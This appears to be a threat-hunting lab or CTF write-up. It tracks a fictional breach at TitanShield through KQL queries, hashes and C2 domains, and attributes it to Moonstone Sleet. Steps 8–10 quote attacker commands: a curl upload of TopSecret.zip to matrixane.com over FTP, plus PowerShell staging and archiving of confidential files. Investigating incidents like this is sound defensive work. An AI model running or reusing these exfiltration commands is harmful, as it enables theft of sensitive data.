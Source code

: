 # 🎮 DeTankWar Incident: Breach of Project Omega

> A high-stakes cybersecurity case study involving North Korean APT group Moonstone Sleet, malicious gaming software, and the compromise of TitanShield's classified AI defense project.

---

## 🧠 Background: Project Omega

TitanShield was working on **Project Omega**—a revolutionary autonomous defense system. Designed for intelligent threat neutralization, it was the most classified project in the company's arsenal.

But then... one game changed everything.

---

## 🎮 Suspicious Activity Begins

An employee named **James Douglas** downloaded a game named **DeTankWar** after seeing a flashy post. He reported his system slowing down. The security team began the investigation.

---

## 🕵️‍♂️ Step 1: Identify James' Host

```kql
Employees
| where name has "James Douglas"
```
 Hostname: UB9I-DESKTOP

 ---
 ### 🔍 Step 2: Check for Game Installation

I queried the system to see if the suspicious game `DeTankWar` was installed on the device belonging to James Douglas (`UB9I-DESKTOP`).

```kql
FileCreationEvents
| where hostname == "UB9I-DESKTOP"
| where filename has "DeTankWar"
```
✅ Result: Malicious game file was found on the host.

SHA256 for this file is found to be :
56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c
---
## 🧪 Step 3: Analyze in Microsoft Defender XDR

After retrieving the file hash, it was submitted to Microsoft Defender XDR.

- ✅ **Secure Score**: `100`
- ❌ **Verdict**: Malicious
- 🔍 **Threat Actor Identified**: `Moonstone Sleet`

---

## 🌍 Step 4: Threat Actor Profile – Moonstone Sleet

- 🏴 **Origin**: North Korea  
- 🎯 **Targets**: Defense Industrial Base  
- 🎭 **Motivation**: Espionage & Revenue Generation  
- 🔁 **Overlaps With**: Diamond Sleet (Another DPRK threat actor)

---

## 📧 Step 5: Check for Phishing Emails

**Domain Involved**: `detankwar.com`

```kql
Email
| where link has "detankwar.com"
```
✅ 6 phishing emails identified in the environment.

---
## 📬 Step 6: Targeted Employee List

I investigated who among TitanShield employees received phishing emails containing links to the malicious domain.

```kql
Email
| where link has "DeTankWar"
| distinct recipient
```
✅ Result: 6 distinct employees were targeted.

🧑‍💻 Enrich With Employee Details

```kql
Email
| where link has "DeTankWar"
| distinct recipient
| join kind=inner Employees on $left.recipient == $right.email_addr
| distinct email_addr, name, role
```
🎯 Most impacted role: Defense Engineer
---
# 🐛 Step 7: Malware Artifacts Detected

The threat actor deployed multiple known malicious payloads disguised as game components:

- `delfi-tank-unity.exe`  
- `nvunityplugin.dll`  
- `unityplayer.dll`  

```kql
FileCreationEvents
| where filename in~ ("nvunityplugin.dll", "unityplayer.dll")
```
✅ 6 DLLs found on the network.

SHA256: 09d152aa2b6261e3b0a1d1c19fa8032f215932186829cfcca954cc5e84a6cc38

👤 Attribution: Moonstone Sleet
---
## 📡 Step 8: C2 Communication Attempt

Threat intelligence reported the following **Command & Control (C2) domains**:

- `mingeloem[.]com`  
- `matrixane[.]com`  

I investigated outbound command-line usage for suspicious communication attempts involving these domains.

```kql
ProcessEvents
| where process_commandline has "curl"
| where process_commandline has_any ("mingeloem.com", "matrixane.com")
```
✅ Data exfiltration command found:
```
curl -T C:\ReadyToGo\TopSecret.zip ftp://matrixane.com/upload/ --user exfil:tankpass
```
🚨 Critical Finding: Data was being transferred via FTP to an external C2 server controlled by the attacker.
---
## 📦 Step 9: Examine Compressed File

I investigated how the attacker created the archive file `TopSecret.zip`, which contained sensitive data prepared for exfiltration.

```kql
ProcessEvents
| where process_commandline has "TopSecret.zip"
```
✅ PowerShell archive activity detected:
```
Compress-Archive -Path C:\StagingArea\* -DestinationPath C:\ReadyToGo\TopSecret.zip
```
📦 Conclusion: Files from C:\StagingArea were compressed into a .zip archive — an essential stage before data exfiltration.
---
## 📁 Step 10: Reveal What Was Stolen

I investigated file operations involving the staging directory to confirm what was exfiltrated. The attacker copied highly confidential project data in preparation for export.

```kql
ProcessEvents
| where process_commandline has "StagingArea"
```
✅ Payload preparation activity detected:
```
Copy-Item -Path \\company_share\confidential\defense\project_omega\* -Destination C:\StagingArea\ -Recurse
```
---

